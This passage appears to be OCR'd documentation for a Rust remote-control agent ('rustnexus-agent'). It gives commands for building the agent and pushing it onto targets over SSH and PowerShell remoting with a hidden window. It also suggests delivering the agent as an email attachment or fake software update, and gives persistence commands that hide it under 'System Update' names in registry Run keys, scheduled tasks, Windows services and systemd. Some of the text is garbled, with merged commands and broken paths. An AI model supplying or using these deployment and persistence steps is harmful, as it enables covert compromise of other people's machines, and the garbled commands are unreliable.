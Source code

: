 2. **Build for Linux**

```bash
# For the current platform
cargo build --release target
rustup target add x86_64-unknown-linux-musl
cargo build --release --target x86_64-unknown-linux-musl

# This creates a statically linked binary that works on most Linux systems
```

### Agent Deployment Methods

1. **Manual Deployment**

Transfer the agent binary to the target system using:
- USB drive
- File sharing service
- Web download

2. **Remote Deployment**

For

```bash
# Using SSH (Linux targets)
scp target/release/rustnexus-agent user@target:/tmp/
ssh user@target "chmod +x /tmp/rustnexus-agent && /tmp/rustnexus-agent &"

# Using PowerShell Remoting (Windows targets)
$session = New-PSSession -ComputerName target
Copy-Item -Path .\target\x86_64-pc-windows-gnu\release\rustnexus-agent.exe -Destination C:\WindowsSession $session
Invoke-Command -Session $session -ScriptBlock { Start-Process -FilePath C:\Windows\Temp\rustnexus-agent.exe -WindowStyle Hidden }
```

3. **Social Engineering**

Package the agent as:
- Email attachment
- Fake software update
- Bundled with legitimate software

### Agent Persistence

1. **Windowsershell
# Registry Run Key
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v SystemUpdate /t REG_SZ /d "C:\path\to\rustnexus-agent Scheduled Task
schtasks /create /tn "System Update" /tr "C:\path\to\rustnexus-agent.exe" /sc onlogon /ru "System"

# Windows Service
sc create SystemUpdate binPath= "C:\path\to\rustnexus-agent.exe" start= auto
sc start SystemUpdate
```

2. **Linux Persistence Methods**

```bash
# Systemd Service
sudo tee /etc/systemd/system/system-update.service > /dev/null << EOL
[Unit]
Description=System Update Service
After=network.target

```